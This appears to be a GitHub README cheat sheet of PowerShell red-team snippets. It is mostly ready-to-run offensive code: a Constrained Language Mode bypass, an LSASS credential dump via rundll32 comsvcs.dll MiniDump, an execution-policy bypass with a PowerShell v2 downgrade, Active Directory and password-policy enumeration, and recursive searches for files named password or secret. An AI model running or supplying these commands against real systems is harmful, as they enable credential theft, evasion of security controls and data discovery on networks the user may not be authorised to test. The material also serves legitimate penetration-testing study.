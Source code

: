 # Powershell_stuff

#Check if Full or Constrained Language Mode is in place.   
$ExecutionContext.SessionState.LanguageMode

#Set Proxy Settings Manually in Powershell (enter in Creds)

	$Wcl=New-Object System.Net.WebClient   
	$Creds=Get-Credential   
	$Wcl.Proxy.Credentials=$Creds   
	Invoke-WebRequest http://www.google.co.uk   

If you get a 200 back you're all good.

CLM Bypass   
	#Path to Powershell
	$CMDLine = "$PSHOMEpowershell.exe"

	#Getting existing env vars
	[String[]] $EnvVarsExceptTemp = Get-ChildItem Env:* -Exclude "TEMP","TMP"| % { "$($_.Name)=$($_.Value)" }

	#Custom TEMP and TMP
	$TEMPBypassPath = "Temp=C:windowstemp"
	$TMPBypassPath = "TMP=C:windowstemp"

	#Add the to the list of vars
	$EnvVarsExceptTemp += $TEMPBypassPath
	$EnvVarsExceptTemp += $TMPBypassPath

	#Define the start params
	$StartParamProperties = @{ EnvironmentVariables = $EnvVarsExceptTemp }
	$StartParams = New-CimInstance -ClassName Win32_ProcessStartup -ClientOnly -Property $StartParamProperties

	#Start a new powershell using the new params
	Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $CMDLine
	ProcessStartupInformation = $StartParams
	}

	#lsass dump
	$processes = Get-Process
	$location = Get-Location


$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
		Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
		Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.log"
		rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.log full | Out-Null
		Compress-Archive -Path $location\$env:COMPUTERNAME.log -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression

#ENABLE TLS1.2 if you receive a message Regarding an ISSUE with TLS   
[Net.ServicePointManager]::SecurityProtocol = [Net.ServicePointManager]::SecurityProtocol -bor [Net.SecurityProtocolType]::Tls12

Execute Powershell with Exec bypass and stay in Version 2

powershell.exe -Version 2 -ExecutionPolicy bypass

#Powershell Specific Tooling

# PowerSharpPack
PowerSharpPack -SharpShares -Command "--shares"

#Domain Enumeration

#Group Membership  
([ADSISEARCHER]"samaccountname=$('ENTERUSERNAME')").Findone().Properties.memberof -replace '^CN=([^,]+).+$','$1' | sort-object


#Aliases

dir = Get-ChildItem


#Current Domain Password Policy
$domain = [adsi](“WinNT://DOMAIN.local”)
$domain.Properties.Keys | Foreach {
  @{$_ = [string]$domain.Properties.Item($_) }
}



#Search for any file with the extension (.doc, .xls, .pdf) export output to 'files.csv'

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*.doc*’,’*.xls*’,’*.pdf’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv


#Or if you wanted to do several wildcard searches for sensitive files (replace the terms as necessary):

get-childitem .\ -rec -ErrorAction SilentlyContinue -include @(‘*password*’,’*sensitive*’,’*secret*’)|where{!$_.PSIsContainer}|select-object FullName,@{Name=’Owner’;Expression={(Get-Acl $_.FullName).Owner}},LastAccessTime,LastWriteTime,Length|export-csv -notypeinformation -path files.csv

